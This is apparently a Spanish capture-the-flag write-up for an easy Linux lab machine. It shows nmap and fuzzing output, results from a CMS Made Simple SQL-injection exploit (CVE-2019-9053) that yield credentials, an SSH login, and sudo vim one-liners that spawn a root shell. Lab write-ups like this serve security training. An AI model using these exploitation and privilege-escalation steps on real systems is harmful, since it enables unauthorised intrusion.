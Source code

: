 #Linux #Easy 
### Scan
```css
nmap -p- --open --min-rate 3000 -sS -n -vvv -Pn 10.10.68.49
```
### 
```css
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.33.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.64 seconds
```

### El puerto 21 tiene certificaciones por defecto para ingresar como anomymous


### haciendo fuzzing conseguimos el directorio "'/simple'" 
### hacemos fuzzing al directorio /simple 
```css
/.php              (Status: 403) [Size: 298]
/.html             (Status: 403) [Size: 299]
/index.php         (Status: 200) [Size: 19913]
/modules           (Status: 301) [Size: 321] [--> http://10.10.14.180/simple/modules/]
/uploads           (Status: 301) [Size: 321] [--> http://10.10.14.180/simple/uploads/]
/doc               (Status: 301) [Size: 317] [--> http://10.10.14.180/simple/doc/]
/admin             (Status: 301) [Size: 319] [--> http://10.10.14.180/simple/admin/]
/assets            (Status: 301) [Size: 320] [--> http://10.10.14.180/simple/assets/]
/lib               (Status: 301) [Size: 317] [--> http://10.10.14.180/simple/lib/]
/install.php
```

### conseguimos enumerar la version de aparentemente la pg:

```css
CMS Made Simple version 2.2.8
```

### buscamos un exploit. en www.exploit.db.com conseguimos exploit de Python que explota una vulnerabilidad de inyección de SQL (CVE-2019-9053). La vulnerabilidad permite a un atacante realizar una inyección de SQL en el sistema y extraer información sensible de la base de datos.
#### Ejecutamos el exploit y obtenemos resultados:
```css

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[*] Try: secret
```

### intentamos acceder via ssh que esta habilitado en el puerto 2222
```css
ssh mitch@10.10.45.134
password: secret 
```

# Enumeración básica sistema
```css
find / -perm -u=s -type f 2>/dev/null
sido -l 
```
# Permisos sudo
```css
con el usuario mitch tenemos permisos para ejecutar /usr/bin/vim 

ejecutamos: sudo vim -c ':!/bin/sh'
```

### otras opciones
```css

	sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

	sudo vim -c ':lua os.execute("reset; exec sh")'
```

### WE ARE ROOT